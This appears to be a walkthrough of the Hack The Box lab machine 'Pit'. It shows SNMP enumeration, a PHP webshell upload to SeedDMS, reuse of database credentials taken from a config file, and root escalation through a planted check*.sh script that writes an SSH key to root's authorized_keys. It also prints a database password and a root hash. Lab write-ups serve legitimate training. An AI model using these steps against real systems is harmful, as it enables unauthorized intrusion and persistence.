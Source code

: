 ```yaml
---
title: "[HTB] Pit - Walkthrough"
layout: post
---
```


# Main Points
* [#SNMP](#SNMP)
* [SNMP can execute binary](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce)

# Writeup

## Enumeration
nmap enumeration:
```nmap
* 22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)
* 80/tcp   open  http            syn-ack ttl 63 nginx 1.14.1
* 9090/tcp open  ssl/zeus-admin? syn-ack ttl 63
	 ssl-cert: Subject: commonName=dms-pit.htb/ organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
	 Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1

```
We add the `dms-pit.htb` to `/etc/hosts` just in case there is virtual host.

Port 80 doesn't have anything interesting, Port 9090 has a login page, Hydra can't seem to bruteforce it, after launching nmap scan of UDP we find open port 161. This port corresponds to SNMP, it's a protocol.

### SNMP
Download and install `snmp-mibs-downloader` (apt)

To enumerate fully, we start walking the tree with `snmpwalk`
**Notes** :  `snmpwalk` by default starts from "mib-2", so you should specify `1` or `iso` to start enumerating from the root tree.

`snmpwalk -v 1 -c public 10.10.10.241 1`

## Foothold
We notice this path
![Pasted image 20210712230908.png](./Pasted%20image%2020210712230908.png)
Trying to access https://pit.htb:9090/seeddms51x/seeddms doesn't work.
While https://dms-pit.htb/ gives a forbidden error, we can access the URL https://dms-pit.htb/seeddms51x/seeddms

![Pasted image 20210712231031.png](./Pasted%20image%2020210712231031.png)

Since we saw the user `michelle` when enumrating SNMP, I try `michelle: michelle`, and it works.
We can login
![Pasted image 20210712231359.png](./Pasted%20image%2020210712231359.png)

There is upgrade note posted by Admin
![Pasted image 20210712231451.png](./Pasted%20image%2020210712231451.png)

We download the attachment, nothing really interesting except an old CVE fix about unvalidated file upload. We read about the CVE in exploit-db.

We see there is default folder for uploaded files
```txt
data/1048576/<document_id>/<file>.php
```

We see in the docs folder a folder named "Michelle" let's see if we can upload a php webshell.
![Pasted image 20210712232540.png](./Pasted%20image%2020210712232540.png)

We add a document
![Pasted image 20210712232926.png](./Pasted%20image%2020210712232926.png)
![Pasted image 20210712233520.png](./Pasted%20image%2020210712233520.png)

We setup our netcat listener
![Pasted image 20210712232945.png](./Pasted%20image%2020210712232945.png)

And we access the path
`dms-pit.htb/seeddms51x/data/1048576/<document_id>/<file>`
(We see our document_id is 30, you can see it in the URL as parameter, and the \<file\> is the name you specified in the form)

We have a shell, and we go to /var/www/html/conf

we see a file `settings.xml`
let's print it
We find some database creds
![Pasted image 20210713002133.png](./Pasted%20image%2020210713002133.png)
```xml
<database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu">
```

Let's try these creds in the main page at port 9090
Didnt work.

Let's try `Michelle: ied^ieY6xoquu`
It works !
We have these options
![Pasted image 20210713004107.png](./Pasted%20image%2020210713004107.png)
And in the profile we see
![Pasted image 20210713004134.png](./Pasted%20image%2020210713004134.png)
Hmmm interesting.
Further down the road in the left bar we see a Terminal
![Pasted image 20210713004256.png](./Pasted%20image%2020210713004256.png)

![Pasted image 20210713004306.png](./Pasted%20image%2020210713004306.png)
Nice ! We can get user flag .

## Priv Esc
We grep in the output of snmpwalk for `root`, we see there is a user root part of the OID
`NET-SNMP-EXTEND-MIB::nsExtendOutLine."monitoring"`
Let's fetch all of this MIB module with `nsExtendObjects`

* [OID viewer](https://cric.grenoble.cnrs.fr/Administrateurs/Outils/MIBS/?oid=1.3.6.1.4.1.8072.1.3)

We see there is a binary `/usr/bin/monitor`
in the OID `NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring"`
![Pasted image 20210713032341.png](./Pasted%20image%2020210713032341.png)
Let's check it from Michelle

![Pasted image 20210713032323.png](./Pasted%20image%2020210713032323.png)
It's a script shell.

![Pasted image 20210713032423.png](./Pasted%20image%2020210713032423.png)

So what it does is iterate in the folder `/usr/local/monitoring/` for files that start with `check` and end with `sh`, so `check*sh`
and execute them with bash. And seeing the permissions, it is ran as root. So we can get a root shell.

Unfortonately we can't use a reverse shell, because there is a firewall iptables that is blocking the connection. So we can rely on ssh, we will create ou ssh key, and create a script that will copy the ssh key to the `/root/.ssh` folder and we will use that key to connect to root through ssh.

Fortunately we can write in `/usr/local/monitoring/`

let's generate a ssh key in our kali machine
`ssh-keygen`
![Pasted image 20210713032955.png](./Pasted%20image%2020210713032955.png)

And the script `check1.sh`
```bash
#!/bin/bash
echo "<PASTE HERE THE CONTENT OF id_rsa.pub>" > /root/.ssh/authorized_keys 
```

We copy this script by uploading it with curl and setting up our Python HTTP Server.

To trigger the `monitor` script to run our script, we can execute it with snmpwalk by querying its specific OID and querying the `run_on_read()`

`NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
`
See [SNMP RCE](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce)
Command :
* `snmpwalk -c public -v 1 10.10.10.241 nsExtendObject`

Then run `ssh root@10.10.10.241 -i id_rsa`
You have root, you can get the flag :)
# root hash
`$6$4ZnZ0Iv3NzFIZtKa$tA78wgAwaBBSg96ecMRPYIogQmANo/9pJhHmf06bCmbKukMDM9rdT2Mdc6UhwD1raDzXIrk.zjQ9lkJIoLShE`
